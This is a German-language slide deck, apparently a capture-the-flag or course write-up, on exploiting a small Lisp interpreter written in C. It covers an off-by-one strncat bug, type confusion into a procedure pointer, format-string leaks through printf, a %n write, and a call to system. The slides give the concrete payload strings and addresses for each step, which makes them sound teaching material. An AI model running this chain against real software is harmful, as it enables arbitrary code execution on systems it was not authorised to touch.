\section[Exploit]{Exploit}

\begin{frame}[fragile]
    \frametitle{Schwachstelle Off-By-One}
in der read Funktion:
	\begin{lstlisting}[language=C]
if (tokenlen > MAXTOKENLEN) {
       print_err("Token to long! Maximum token size: %d\n",MAXTOKENLEN);
       exit(-1);
}
	\end{lstlisting}
Diese ruft anschließende folgende Funktion auf:
	\begin{lstlisting}[language=C]
expr *create_exprsym(const char *s)
{
        expr *new = create_expr(EXPRSYM);
        strncat(new->symvalue, s, MAXTOKENLEN);
        return new;
}
\end{lstlisting}
\pause
\begin{itemize}
\item Nächstes Byte wird auf 0 gesetzt bei MAXTOKENLEN (hier: 32).
\item Dadurch wird der Typ von SYMBOLE auf PROCEDURE gestellt
\item Durch union werden die erste 4 byte als Pointer auf PROCEDURE interpretiert

\end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Schwachstelle - printf Funktion erstellen}
Genau 32 Zeichen:
\begin{lstlisting}
> (define test abcdeeeeeeffffffffffgggggggggghh)
> test
 PROC: 0x64636261 
\end{lstlisting}
printf in plt:
\begin{lstlisting}
> (define printfproc \x60\x86\x04\x08aaaaaabbbbbbbbbbccccccccccdd)
\end{lstlisting}
call printf with \texttt{"\%2\$p\textbackslash n"}
\begin{lstlisting}
> (printfproc 0xa70243225)
> 0x667440
\end{lstlisting}
call printf with \texttt{"\%9\$p\textbackslash n"}
\begin{lstlisting}
> (printfproc 0xa70243925)
> 0x8417838
\end{lstlisting}
\end{frame}


\begin{frame}[fragile]
    \frametitle{Schwachstelle - Addressen erechnen}
\begin{itemize}
\item Erste Addresse befindet sich in libc $\Rightarrow$ berechnen von system
\item Zweite Addresse zeigt auf eine Expression im Heap $\Rightarrow$ Addresse von nächster Expression berechnen.
\end{itemize}

\begin{tikzpicture}
\node[draw,rectangle,minimum width=80] (C) at (0,0) { \texttt{(define systemproc \textbackslash x80\textbackslash x86\textbackslash x16raaaaaa\textbackslash xfb\textbackslash xe9\textbackslash x04\textbackslash x08aaaaaaaaaaaaaaaa)}};
%\draw (0,0) rectangle node{ (define systemproc \x80\x86\x16raaaaaa\xfb\xe9\x04\x08aaaaaaaaaaaaaaaa)};
\draw[->, shorten >=1pt, thick] (1,-0.3) -- ++ (0,-1) -- ++ (-1.87,0) -- ++ (0,1);
\end{tikzpicture}

\begin{itemize}
\item 'r' durch 0 ersetzen nochmal mit printf und dem Format String '\texttt{\%103\$n\textbackslash n}'
\item call systemproc with './s.sh'
\begin{lstlisting}
> (systemproc 0x68732e732f2e)
\end{lstlisting}
\end{itemize}
\end{frame}

